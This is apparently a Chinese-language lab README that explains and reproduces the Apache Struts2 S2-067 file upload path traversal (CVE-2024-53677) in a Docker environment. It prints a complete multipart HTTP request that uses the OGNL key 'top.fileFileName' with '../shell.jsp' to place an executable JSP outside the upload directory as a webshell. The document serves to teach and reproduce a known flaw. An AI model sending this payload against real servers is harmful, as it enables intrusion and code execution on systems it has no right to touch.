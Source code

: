 # Struts2 S2-067 文件上传路径穿越漏洞（CVE-2024-53677）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

S2-067 是 S2-066 漏洞的变种，产生于对 S2-066 的不完全修复。S2-066 是由于大小写敏感性比较问题导致文件名被覆盖而造成目录穿越，而 S2-067 则利用了另一种机制达到相同的目的。

在 Struts2 中，所有参数在传递时，参数的键名都会进行 OGNL 表达式的计算。这个特性历史上曾导致多次通过 OGNL 表达式注入实现远程命令执行的漏洞。虽然 Struts2 已经实现了严格的参数键名验证来防止 RCE 漏洞，但表达式计算仍然会发生。S2-067 就是利用这个表达式计算机制，再次覆盖上传文件时的文件名，最终导致目录穿越问题。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## 环境搭建

执行以下命令启动一个用 Struts2 2.5.33 编写的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

在复现 S2-067 漏洞之前，需要先阅读 [S2-066](../s2-066/README.md) 并理解漏洞的原理。

在这个环境中，我们已经不能使用与 S2-066 相同的 payload，因为大小写敏感性问题已被修复：

![](1.png)

将 OGNL 表达式 `top.fileFileName` 作为文件名参数键名的一部分，文件将再次被上传到受限上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 不同于 S2-066 利用大小写敏感性，这里使用了参数键名中的 OGNL 表达式计算
- 参数键名 `top.fileFileName` 会被作为 OGNL 表达式进行计算
- 这个计算允许我们使用路径穿越 payload `../shell.jsp` 覆盖文件名

![成功上传](2.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](3.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
